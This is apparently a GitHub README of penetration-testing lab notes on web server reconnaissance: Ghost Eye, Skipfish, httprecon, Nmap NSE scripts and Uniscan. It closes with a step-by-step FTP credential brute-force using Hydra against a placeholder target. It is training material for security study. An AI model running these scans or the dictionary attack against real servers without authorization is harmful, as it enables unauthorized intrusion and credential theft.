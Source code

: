 ## Information gathering using Ghost Eye
+ Ghost Eye is an information-gathering tool written in Python 3. To run, Ghost Eye only needs a domain or IP
+ Ghost Eye gathers information such as Whois lookup, DNS lookup, EtherApe, Nmap port scan, HTTP header grabber, Clickjacking test, Robots.txt scanner, Link grabber, IP location finder, and traceroute.

![a](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/404d0d91-3ff5-43a8-b639-7483cdca8a71)

### Whois lookup
![b](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/1c3bc55d-463b-49d7-8088-afab3cec3a78)

### Clickjacking 

![c](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/7f07a94a-a5fb-43d7-be39-255707844fa3)


## Perform Web Server Reconnaissance using Skipfish

Skipfish is an active web application (deployed on a webserver) security reconnaissance tool. It prepares an interactive sitemap for the targeted site by carrying out a recursive crawl and dictionary-based probes. The resulting map is then annotated with the output from a number of active (but hopefully non-disruptive) security checks.


![d](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/cf4b685f-89a5-4a87-a34e-51cbd8c55d98)

![e](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/8eaaf467-aa32-45c6-96a5-21bd56fe952a)

![f](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/8f9938a3-2185-45c3-a54d-6a29fedea113)

# Footprint a Web Server using the httprecon Tool

httprecon is a tool for advanced web server fingerprinting. This tool performs banner-grabbing attacks, status code enumeration, and header ordering analysis on its target web server.

![g](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/71f6ecf2-e220-4d0c-a255-d9ee47b4b3ba)

## Enumerate Web Server Information using Nmap Scripting Engine (NSE)
+ Enumerate the directories used by web servers and web applications.
  ```
  nmap -sV --script=http-enum [target website]
  ```
![h](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/8ad9696b-9ec0-4fa5-9725-005c64b2ec6d)

+ To discover the hostnames that resolve the targeted domain.
```
  nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- www.goodshopping.com
```
+ Check whether Web Application Firewall is configured on the target host or domain.
```
  nmap -p80 --script http-waf-detect www.goodshopping.com
```
![i](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/d1dcbb63-c34f-4687-8d30-63eac4065e41)

## Uniscan Web Server Fingerprinting
Uniscan is a versatile server fingerprinting tool that not only performs simple commands like ping, traceroute, and nslookup, but also does static, dynamic, and stress checks on a web server. 
+ To search for dirtories
```
  uniscan -u http:url -q
```
+ use the dynamic testing option by giving the command -d
```
 uniscan -u http://10.10.1.22:8080/CEH -d
```
![j](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/73f26c15-ca90-404a-907f-842adc3cf738)

Result are stored as a html page in uniscan directory with IP of the domain a file name.

## Perform a Web Server Attack
## Crack FTP Credentials using a Dictionary Attack
1. Perform nmap to check ftp is open in target server.
```
  nmap -p 21 target_IP
```
![k](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/7bf1a7a2-d25c-4c75-bb28-0dd50a9cceb5)

2. Check FTP server is hosted
```
  ftp target_IP
```
![l](https://github.com/Kr1shna02/Hack_Flow/assets/117007783/62e64373-1c3b-4bd0-b097-c1e7a68f8384)

3. Now perform password cracking attack using Hydra
```
  hydra -L username.txt -P password.txt fpt://target_IP
```
If the password of FTP is weak the we can get the username and password .And we can login as legitimate user.

